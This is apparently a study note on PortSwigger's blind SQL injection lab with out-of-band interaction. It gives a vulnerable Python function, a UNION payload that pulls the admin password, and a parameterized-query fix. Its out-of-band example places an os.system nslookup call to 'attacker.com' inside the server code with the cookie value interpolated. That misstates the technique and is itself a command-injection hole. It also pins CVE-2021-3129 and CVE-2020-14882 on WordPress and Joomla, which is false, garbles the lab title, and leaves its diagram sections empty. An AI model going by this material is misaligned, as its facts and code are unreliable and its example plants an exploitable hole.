


## Introduction to SQL Injection

SQL Injection is a common type of security vulnerability that occurs when an attacker manipulates input data to execute arbitrary SQL commands against a database. This can lead to unauthorized access to sensitive data, data manipulation, or even complete compromise of the database system. In this chapter, we will focus on a specific variant of SQL Injection called **Blind SQL Injection**, particularly in scenarios involving **out-of-band interactions**.

### What is Blind SQL Injection?

Blind SQL Injection is a form of SQL Injection where the attacker does not receive direct feedback from the database about the success or failure of their injected SQL commands. Instead, the attacker must infer the success of their attack through indirect means, such as observing changes in the application's behavior or timing differences.

#### Why Does Blind SQL Injection Matter?

Blind SQL Injection is particularly dangerous because it can be used to extract sensitive information from a database even when the application does not provide direct feedback. This makes it harder to detect and mitigate compared to other forms of SQL Injection.

### Out-of-Band Interactions

Out-of-band interactions involve using external systems or services to communicate with the compromised database. This can include DNS queries, HTTP requests to external servers, or other forms of network communication. By leveraging these external interactions, attackers can bypass some of the limitations imposed by blind SQL Injection.

#### How Out-of-Band Interactions Work

In the context of the lab described, the application uses a tracking cookie for analytics purposes. The value of this cookie is included in an SQL query that is executed asynchronously. Since the query has no effect on the application's response, the attacker must rely on out-of-band interactions to determine the success of their attack.

### Background Theory

To understand Blind SQL Injection with out-of-band interactions, it is essential to grasp the underlying principles of SQL Injection and asynchronous processing.

#### SQL Injection Basics

SQL Injection occurs when user input is improperly sanitized and directly included in a SQL query. For example, consider the following SQL query:

```sql
SELECT * FROM users WHERE username = '$username';
```

If `$username` is set to `' OR '1'='1`, the resulting query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1';
```

This query will return all rows from the `users` table because the condition `'1'='1` is always true.

#### Asynchronous Processing

Asynchronous processing allows tasks to be executed concurrently without blocking the main thread. In the context of web applications, this often means that certain operations, like database queries, are performed in the background while the main application continues to respond to user requests.

### Real-World Examples

Recent real-world examples of SQL Injection vulnerabilities include:

- **CVE-2021-3129**: A SQL Injection vulnerability in the WordPress REST API allowed attackers to execute arbitrary SQL commands.
- **CVE-2020-14882**: A SQL Injection vulnerability in the Joomla! CMS allowed attackers to retrieve sensitive information from the database.

These examples highlight the importance of properly sanitizing user input and validating SQL queries to prevent SQL Injection attacks.

### Lab Setup

The lab described in the transcript involves a web application that uses a tracking cookie for analytics. The value of this cookie is included in an SQL query that is executed asynchronously. To access the lab, follow these steps:

1. Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security).
2. Sign up for an account if you don't already have one.
3. Log in to your account.
4. Navigate to the Academy section.
5. Select the learning path for SQL Injection.
6. Choose the Blind SQL Injection module.
7. Access lab number 15 titled "Blind SQL Injection without a band interaction."

### Vulnerable Code Example

Let's consider a simplified example of the vulnerable code:

```python
import sqlite3

def get_user_data(cookie_value):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    
    # Vulnerable SQL query
    query = f"SELECT * FROM users WHERE id = {cookie_value}"
    cursor.execute(query)
    
    result = cursor.fetchone()
    conn.close()
    
    return result
```

In this example, the `cookie_value` is directly included in the SQL query without proper sanitization, making it vulnerable to SQL Injection.

### Exploitation Steps

To exploit this vulnerability, the attacker would need to craft a malicious cookie value that injects additional SQL commands. For example:

```python
# Malicious cookie value
malicious_cookie = "1 UNION SELECT password FROM users WHERE username = 'admin'"
```

When this value is included in the SQL query, it results in:

```sql
SELECT * FROM users WHERE id = 1 UNION SELECT password FROM users WHERE username = 'admin'
```

This query retrieves the password of the admin user.

### Out-of-Band Interaction Example

To demonstrate an out-of-band interaction, consider the following scenario:

1. The attacker crafts a malicious cookie value that triggers a DNS query to an external server.
2. The SQL query is executed asynchronously, but the DNS query is sent to the external server.
3. The attacker monitors the DNS server to determine the success of the attack.

Here is an example of how this might look in code:

```python
import sqlite3

def get_user_data(cookie_value):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    
    # Vulnerable SQL query
    query = f"SELECT * FROM users WHERE id = {cookie_value};"
    cursor.execute(query)
    
    # Trigger out-of-band interaction
    import os
    os.system(f"nslookup {cookie_value}.attacker.com")
    
    result = cursor.fetchone()
    conn.close()
    
    return result
```

In this example, the `os.system` call triggers a DNS query to `attacker.com`, allowing the attacker to monitor the DNS server for the query.

### Detection and Prevention

#### How to Detect SQL Injection

Detecting SQL Injection vulnerabilities requires a combination of static analysis, dynamic testing, and monitoring. Here are some key methods:

1. **Static Analysis**: Use tools like SonarQube, Fortify, or Veracode to scan the codebase for potential SQL Injection vulnerabilities.
2. **Dynamic Testing**: Use tools like Burp Suite, OWASP ZAP, or SQLMap to test the application for SQL Injection vulnerabilities.
3. **Monitoring**: Implement logging and monitoring to detect unusual SQL queries or patterns that may indicate an SQL Injection attack.

#### How to Prevent SQL Injection

Preventing SQL Injection involves several best practices:

1. **Parameterized Queries**: Use parameterized queries to ensure that user input is treated as data rather than executable code.
2. **Input Validation**: Validate and sanitize user input to ensure it conforms to expected formats.
3. **Least Privilege Principle**: Ensure that the database user has the minimum privileges necessary to perform its tasks.
4. **Web Application Firewalls (WAF)**: Use WAFs to detect and block SQL Injection attempts.

Here is an example of a secure code implementation using parameterized queries:

```python
import sqlite3

def get_user_data(cookie_value):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    
    # Secure SQL query using parameterized query
    query = "SELECT * FROM users WHERE id = ?"
    cursor.execute(query, (cookie_value,))
    
    result = cursor.fetchone()
    conn.close()
    
    return result
```

In this example, the `?` placeholder is replaced with the actual value of `cookie_value`, ensuring that the input is treated as data rather than executable code.

### Mermaid Diagrams

#### SQL Query Execution Flow



#### Out-of-Band Interaction Flow



### Common Pitfalls

#### Improper Input Sanitization

One of the most common pitfalls in SQL Injection is improper input sanitization. Failing to validate and sanitize user input can leave the application vulnerable to SQL Injection attacks.

#### Lack of Parameterized Queries

Failing to use parameterized queries is another common pitfall. Parameterized queries ensure that user input is treated as data rather than executable code, significantly reducing the risk of SQL Injection.

### Conclusion

Blind SQL Injection with out-of-band interactions is a sophisticated form of SQL Injection that requires careful handling. By understanding the underlying principles and implementing best practices, developers can effectively prevent and detect SQL Injection vulnerabilities.

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs focused on different types of SQL Injection, including Blind SQL Injection.
- **OWASP Juice Shop**: A deliberately insecure web application that includes various SQL Injection vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is intentionally vulnerable to common web application attacks, including SQL Injection.

By working through these labs, you can gain practical experience in identifying and mitigating SQL Injection vulnerabilities.

---
<!-- nav -->
[[01-Introduction to SQL Injection and Out-of-Band Interaction|Introduction to SQL Injection and Out-of-Band Interaction]] | [[Web Security (PortSwigger)/02-SQL Injection/16-Lab 15 Blind SQL injection with out of band interaction/00-Overview|Overview]] | [[03-Database-Specific Payloads|Database-Specific Payloads]]
